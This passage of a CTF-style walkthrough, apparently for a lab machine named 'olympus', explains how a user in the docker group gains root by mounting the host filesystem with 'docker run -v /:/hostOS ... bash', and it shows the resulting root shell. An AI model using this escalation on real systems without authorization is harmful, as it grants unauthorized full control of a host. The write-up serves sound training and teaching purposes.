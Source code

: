 <div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="go">...[snip]...
We're a member of the (docker) group - could possibly misuse these rights!:
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
...[snip]...
</span></code></pre></div></div>

<h3 id="root-file-system-access-via-docker-group">root File System Access Via docker Group</h3>

<p>To get access to the entire local file system, we’ll use docker to run one of the images, and we’re going to mount the local file system root in that image, and give ourselves a shell to that system.</p>

<p><code class="language-plaintext highlighter-rouge">docker run</code> looks like this: <code class="language-plaintext highlighter-rouge">$ docker run [OPTIONS] IMAGE[:TAG|@DIGEST][COMMAND] [ARG...]</code> <a href="https://docs.docker.com/engine/reference/run/#general-form">ref</a></p>

<p>So we’ll run <code class="language-plaintext highlighter-rouge">docker run -v /:/hostOS -i -t  rodhes bash</code>:</p>

<ul>
  <li><code class="language-plaintext highlighter-rouge">-v /:/hostOS</code> - mount the host’s <code class="language-plaintext highlighter-rouge">/</code> as <code class="language-plaintext highlighter-rouge">/hostOS</code> inside the image</li>
  <li><code class="language-plaintext highlighter-rouge">-i</code> - interactive</li>
  <li><code class="language-plaintext highlighter-rouge">-t</code> - create a tty</li>
  <li><code class="language-plaintext highlighter-rouge">rodhes</code> - the name of the image to run, got from <code class="language-plaintext highlighter-rouge">docker ps above</code>
    <ul>
      <li>I picked this one because it doesn’t have shell access by others, so it’s less likely to accidentally give the root flag to someone else</li>
    </ul>
  </li>
  <li><code class="language-plaintext highlighter-rouge">bash</code> - command to run</li>
</ul>

<p>And this does give root access:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">prometheus@olympus:/dev/shm$ </span>docker run <span class="nt">-v</span> /:/hostOS <span class="nt">-i</span> <span class="nt">-t</span>  rodhes bash
<span class="go">cat: /etc/hostip: No such file or directory

</span><span class="gp">root@6e53f07f626a:/# </span><span class="nb">id</span>
<span class="go">uid=0(root) gid=0(root) groups=0(root)

</span><span class="gp">root@6e53f07f626a:/# </span><span class="nb">cd</span> /hostOS/
<span class="go">
</span><span class="gp">root@6e53f07f626a:/hostOS# </span><span class="nb">ls</span>
<span class="go">bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
</span></code></pre></div></div>

<h3 id="roottxt">root.txt</h3>
